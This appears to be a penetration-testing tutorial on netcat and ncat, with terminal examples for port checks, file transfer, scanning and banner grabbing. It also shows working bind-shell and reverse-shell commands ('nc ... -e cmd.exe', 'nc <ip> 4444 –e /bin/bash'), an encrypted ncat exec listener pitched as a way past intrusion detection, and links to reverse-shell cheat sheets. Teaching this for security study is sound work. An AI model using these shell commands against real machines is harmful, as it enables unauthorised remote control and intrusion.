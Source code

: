 ### Netcat

As the man page says nc or netcat is a TCP/IP swiss army knife.

You can use this tool to read/write TCP/UDP port. This means that nc can act both as a client and a server.

Connecting to a TCP/UDP port can be useful in several situations:
- To check if a port is open or closed.
- To read a banner from the port.
- To connect to a network service manually

- To Check if Port is open:
root@kali:/home/greysec/scripts# nc -nv 192.168.1.9 80
(UNKNOWN) [192.168.1.9] 80 (http) open

root@kali:/home/greysec/scripts# nc -nv 192.168.1.9 110
(UNKNOWN) [192.168.1.9] 110 (pop3) : Connection refused

Sometimes you get more output than the above you are seeing, including banner info of the server that is running.

### Netcat as a server

root@kali:/home/greysec/scripts# nc -nlvp 1234
listening on [any] 1234 ...

### Netcat as a server

root@kali:/home/greysec/scripts# nc -nv 192.168.1.11 1234


If there is a server/target(192.168.1.1) listening on port 1234, it will get connected.
You can use this connection as a simple chat window:

root@kali:/home/greysec/scripts# nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.1.11] from (UNKNOWN) [192.168.1.11] 48344
hello
hellp


root@kali:/home/greysec/scripts# nc -nv 192.168.1.11 1234
(UNKNOWN) [192.168.1.11] 1234 (?) open
hello
hellp


In the above case, port is only opened in listening/server side.

### Transfer a file using nc:

#### C:\Users\offsec>nc -nlvp 4444 > incoming.exe

#### nc -nv 10.0.0.22 4444 < /usr/share/windows-binaries/wget.exe

Netcat can also send stdin,stdout, and stderr output of any executable to a TCP/UDP port.

### Bind Shell:

A bind shell is a shell that binds to a specific port on the target host to listen for incoming connections

The steps to setup a bind shell are as following:

- Bind a bash shell to port 1234 using Netcat.
      - # nc -nlvp 1234 -e cmd.exe
- Connect to the target host on port 4444 from the attack box.
      - # nc -n 192.168.1.8 1234
- Issue commands on the target host from the attack box.

- Open the listening port 1234 and send the stdin,stdout and stderr of cmd.exe to the client.

C:\Users\greysec>nc -nlvp 1234 -e cmd.exe
listening on [any] 1234 ...
connect to [192.168.1.8] from (UNKNOWN) [192.168.1.11] 52552

- Now anyone can connect to this listening. Please make sure that firewall settings only allow only a particular host to connect once you open the listening port, otherwise any unknown person can connect to this which will be dangerous.

- Connect to above host:
root@kali:/home/greysec/scripts# nc -n 192.168.1.8 1234
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\greysec>

### Reverse Shell

In order to setup a Netcat reverse shell we need to follow the following steps:

- Setup a Netcat listener.
      - # nc –lvp 1234
- Connect to the Netcat listener from the target host.
      - nc 192.168.100.113 4444 –e /bin/bash
- Issue commands on the target host from the attack box.


- In Bind shell, tcp opens up a port on the victim's device. But, Usually a machine is behind a firewall (or NAT) and firewalls don't allow ports other than a few specific ones (like 80(http), 443(https), 22(ssh), etc) in the listening ports. So, in most of the cases, bind shell will not work.

- Reverse TCP tries to connect to you (from the target machine back to you: you open a port and wait for the connection). The attacking machine (yours) has a listener port on which it receives the connection, after which, code or command execution is achieved. If it is remotely, port forwarding should be done on your router.

Since the attacking machine is yours only, you can open any port, example: if you think that the target/victim machine is under firewall and there is only port 80 or 443 open, you can get the reverse shell by opening the listening port in your attacking machine. If your port 80 is already busy as http, then you can close apache2 service to free it and then open it in listening mode.

- It is important to realize that outgoing traffic can be just as harmful
as incoming traffic.

Port Scanning using nc:

### nc -v -n -z -w1 <target_address> <target_start_port>- <end_port>

-z -> this is to tell nc not to send any data

-w1 -> wait only 1 sec for a connection to occur, if you think due to strict firewall policies, it is taking time to connect bac, you should increase this number in that case.

Banner Grabbing:

### nc -v -n -w1 <target_address> <target_start_port>-<end_port>



During regular pentesting, you will find that the victim/target machine does not have nc installed or nc does not support -e option(target machine is having older nc version).

You can use following cheatsheet in those cases:

- Before running any command from cheatsheet make sure you know about target environment like whether python or perl or bash is available on target, can you use them.

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
https://highon.coffee/blog/reverse-shell-cheat-sheet/


## Ncat

Ncat is similar to nc in the aspect that ncat can also read and write data to TCP/UDP sockets.

But it has the ability to authenticate and encrypt incoming and outgoing connections.

Authentication helps in avoiding any unwanted IP address to connect to our system and enryption helps in bypassing intrusion detection system(IDS).

- ncat --exec cmd.exe --allow 192.168.1.10 -vnl 1234 --ssl

Above command will open listening port 1234 and allow only host with ip address 192.168.1.10 to connect to it, data exchange will be encrypted with ssl encryption

To connect to listener host:
- ncat -v 192.168.1.10 1234 --ssl
